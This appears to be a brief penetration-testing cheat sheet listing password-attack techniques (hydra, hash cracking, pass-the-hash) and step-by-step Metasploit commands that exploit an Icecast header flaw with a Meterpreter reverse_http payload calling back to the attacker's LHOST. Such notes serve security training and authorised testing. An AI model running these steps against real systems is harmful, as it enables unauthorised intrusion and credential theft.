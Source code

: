 # Password Attacks: When to Use Each Technique
### Nohashes
* password guessing
* hydra
* sniffing cleartext
* challenge/response exchanges

### Hashes
* crack the passwords

### NT and LM Windows Hashes
* crack the passwords
* SMB access
* Pass the Hash
    * windwos credentials editor
    * metasploit psexec
    * nmap nse smb

### windows network hashes
* crack the passwords
<br>

# C2Framework
## Service Exploit
### Metasploit
* linux
    * setteing msfconsole
    ```
    msfconsole
    ```
    * search exploits
    ```
    show exploit
    search icecast
    ```
    * choose the exploit
    ```
    use exploit/windows/http/icecast_header
    ```
    * set the payload
    ```
    set PAYLOAD windows/meterpreter/reverse_http
    ```
    * set options
    ```
    show options
    set RHOSTS RHOST_ADDRESS
    set RPORT RHOST_PORT
    set LHOST LHOST_ADDRESS
    ```
    * exploit
    ```
    run
    ```
    * interact session
    ```
    sessions -i SESSION_NUM
    ```